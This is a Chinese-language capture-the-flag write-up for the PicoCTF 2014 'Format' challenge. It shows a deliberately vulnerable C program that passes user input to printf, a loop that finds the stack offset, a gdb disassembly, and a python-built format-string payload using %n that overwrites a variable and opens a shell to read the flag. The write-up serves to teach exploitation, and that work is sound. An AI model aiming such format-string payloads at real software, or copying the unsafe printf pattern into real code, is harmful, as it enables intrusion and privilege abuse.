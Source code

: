 # Pico CTF 2014 : Format
## **[原理]**
nc基础。
## **[目的]**
掌握PWN题目的大致流程。
## **[环境]**
Ubuntu。
## **[工具]**
gdb、objdump、python。
## **[步骤]**


源代码:
	
	#include <stdio.h>
	#include <stdlib.h>
	#include <fcntl.h>
	
	int secret = 0;
	
	void give_shell(){
	    gid_t gid = getegid();
	    setresgid(gid, gid, gid);
	    system("/bin/sh -i");
	}
	
	int main(int argc, char **argv){
	    int *ptr = &secret;
	    printf(argv[1]);
	
	    if (secret == 1337){
	        give_shell();
	    }
	    return 0;
	}

所以我们需要以某种方式找到一种将秘密的值更改为1337的方式，使用格式字符串攻击，因为printf（）函数未正确实现。 首先，先了解一下堆栈的样子。

注意：在这个问题中，环境变量与堆栈混淆，所以在运行命令之前，先使用'env -i'命令清除环境，这样做是有帮助的。
	
	pico1139@shell:/home/format$ for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141
	Offset: 105:AAAA41414141

这意味着我们可以从堆栈顶部看到偏移量为105的输入。 但是，当您添加更多数据时，原始输入的偏移量会发生变化，因此请先添加1333个更多字节的数据，然后查看偏移量。 （1337是我们想要的秘密，我们将写四字节（AAAA），所以1333 + 4 = 1337）
	
	for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
	Offset: 103:AAAA41410074
	Offset: 104:AAAA31254141

所以我们再次发现了我们的A，但是它们并不在栈上。 最后再添加两个A，看看是否可以让它排队。
	
	for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
	Offset: 103:AAAA41414141

好！ 我们的偏移是103.现在我们需要找出用来改变“秘密”中的数据的地址
	
	pico1139@shell:/home/format$ gdb -q format
	Reading symbols from format...(no debugging symbols found)...done.
	(gdb) disass main
	Dump of assembler code for function main:
	   0x080484e2 <+0>:	push   %ebp
	   0x080484e3 <+1>:	mov    %esp,%ebp
	   0x080484e5 <+3>:	and    $0xfffffff0,%esp
	   0x080484e8 <+6>:	sub    $0x20,%esp
	   0x080484eb <+9>:	movl   $0x804a030,0x1c(%esp)
	   0x080484f3 <+17>:	mov    0xc(%ebp),%eax
	   0x080484f6 <+20>:	add    $0x4,%eax
	   0x080484f9 <+23>:	mov    (%eax),%eax
	   0x080484fb <+25>:	mov    %eax,(%esp)
	   0x080484fe <+28>:	call   0x8048350 <printf@plt>
	   0x08048503 <+33>:	mov    0x804a030,%eax
	   0x08048508 <+38>:	cmp    $0x539,%eax
	   0x0804850d <+43>:	jne    0x8048514 <main+50>
	   0x0804850f <+45>:	call   0x80484ad <give_shell>
	   0x08048514 <+50>:	mov    $0x0,%eax
	   0x08048519 <+55>:	leave  
	   0x0804851a <+56>:	return

看起来地址0x0804a030被放置在* ptr中。 这就是我们需要用来代替我们A的地址。 为了将数字1337置于秘密的内存地址中，我们需要使用％n修饰符。 （％103 $ n将查看位于偏移103处的数据作为存储器地址，并将到目前为止写入的字节总数写入该地址。）
	
	pico1139@shell:/home/format$ env -i ./format $(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103$nAA"')
	$ id
	uid=11066(pico1139) gid=1008(format) groups=1017(picogroup)
	$ ls
	Makefile  flag.txt  format  format.c
	$ cat flag.txt
	xctf{XXXXXX}




## **[总结]**
Master the general idea of doing the PWN topic, learn to find and modify shellcode.